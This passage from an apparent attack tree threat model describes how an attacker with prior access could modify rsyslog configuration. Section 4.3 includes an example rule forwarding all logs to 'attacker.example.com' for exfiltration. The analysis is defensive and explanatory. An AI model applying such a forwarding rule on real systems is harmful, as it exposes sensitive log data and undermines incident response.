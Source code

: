 ### 4. Deep Analysis of Attack Tree Path

#### 4.1 High-Risk Path: Manipulate Rsyslog Configuration (Requires Prior Access)

This path highlights a significant security risk because it leverages a core system component, rsyslog, for malicious purposes. The requirement of prior access is a crucial factor, indicating that other security measures have already been bypassed or compromised.

**Assumptions:**

* The attacker has obtained sufficient privileges to modify the rsyslog configuration file (e.g., root access or access to the rsyslog configuration file with write permissions).
* The rsyslog service is running and actively processing logs.

#### 4.2 Attack Vector: An attacker who has gained unauthorized access to the system can modify the rsyslog configuration file.

The ability to modify the rsyslog configuration file grants the attacker significant control over system logging. This control can be abused in various ways, as detailed below.

**Vulnerabilities Exploited:**

* **Insufficient Access Controls on Configuration File:**  If the rsyslog configuration file (typically `/etc/rsyslog.conf` or files in `/etc/rsyslog.d/`) has overly permissive write permissions, an attacker with compromised credentials can modify it.
* **Compromised System Credentials:**  The attacker may have obtained legitimate user credentials with sufficient privileges or exploited a vulnerability to gain elevated privileges (e.g., through privilege escalation).

#### 4.3 Modify configuration file to redirect logs to attacker-controlled server:

This is a stealthy and effective way for an attacker to exfiltrate sensitive information. By redirecting logs, the attacker can passively collect data without directly interacting with the targeted application or system processes.

**Mechanism:**

The attacker would modify the rsyslog configuration to include a rule that forwards all or specific log messages to a remote server they control. This can be achieved using various output modules, such as `omfwd` (for forwarding over TCP/UDP).

**Example Configuration Change:**

```
# Forward all messages to the attacker's server
*.* @@attacker.example.com:514
```

**Impact:**

* **Confidentiality Breach:** Sensitive information contained in the logs (e.g., usernames, IP addresses, application-specific data, error messages) is exposed to the attacker.
* **Loss of Evidence:**  Legitimate security monitoring and incident response efforts can be hampered as logs are no longer reliably stored on the local system.
* **Compliance Violations:**  Many regulatory frameworks require secure and reliable logging. This attack can lead to non-compliance.
